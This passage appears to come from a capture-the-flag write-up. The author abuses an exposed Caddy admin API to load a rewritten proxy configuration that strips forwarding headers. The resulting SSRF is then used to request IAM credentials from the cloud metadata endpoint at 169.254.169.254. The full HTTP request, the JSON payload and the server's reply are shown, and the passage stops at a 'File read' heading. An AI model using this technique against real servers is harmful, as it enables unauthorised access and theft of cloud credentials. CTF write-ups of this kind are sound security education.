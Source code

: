 Caddy adds 3 headers, which are blocked by the cloud API:
```http
X-Forwarded-For: 192.168.65.1
X-Forwarded-Host: [container]
X-Forwarded-Proto: http
```

We have access to the admin API, so we can just drop them by changing the current configuration:
```
POST /127.0.0.1:2019/load HTTP/2
Host: <uuid>.kit.sasc.tf
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive
Content-Type: application/json
Content-Length: 1080
{"apps":{"http":{"servers":{"srv0":{"listen":[":80"],"routes":[{"handle":[{"defaults":["{http.regexp.stripHostPort.2}"],"destinations":["{targetPort}"],"handler":"map","mappings":[{"outputs":[80]}],"source":"{http.regexp.stripHostPort.2}"},{"defaults":["{http.regexp.stripHostPort.3}"],"destinations":["{targetPath}"],"handler":"map","mappings":[{"outputs":["/"]}],"source":"{http.regexp.stripHostPort.3}"}]},{"group":"group2","handle":[{"handler":"subroute","routes":[{"group":"group0","handle":[{"handler":"rewrite","uri":"{targetPath}"}]},{"handle":[{"handler":"reverse_proxy","headers":{"request":{"set":{"Host":["{http.regexp.stripHostPort.1}:{targetPort}"]},"delete":["X-Forwarded-For","Via","X-Forwarded-Host","X-Forwarded-Proto"]}},"upstreams":[{"dial":"{http.regexp.stripHostPort.1}:{targetPort}"}]}]}]}],"match":[{"path_regexp":{"name":"stripHostPort","pattern":"^\\/([^\\/]+?)(?::(\\d+))?(\\/.*)?$"}}]},{"group":"group2","handle":[{"handler":"subroute","routes":[{"handle":[{"handler":"vars","root":"/"},{"handler":"file_server","hide":["/app/Caddyfile"]}]}]}]}]}}}}}
```

Finally, we have full SSRF and can access the cloud API. I tried to access the security credentials of the container  `https://<uuid>.kit.sasc.tf/169.254.169.254/latest/meta-data/iam/security-credentials/default`, but there is no token for this container.

```http
HTTP/2 400 Bad Request
Server: ycalb
Date: Sun, 25 May 2025 07:49:14 GMT
Content-Type: text/plain; charset=utf-8
Content-Length: 44
Etag: aeb61aa4382bbd78d26265397eacff49
Via: 1.1 Caddy
Token is disabled for "fv4em6ihrthp2tbj12l3"
```
### File read
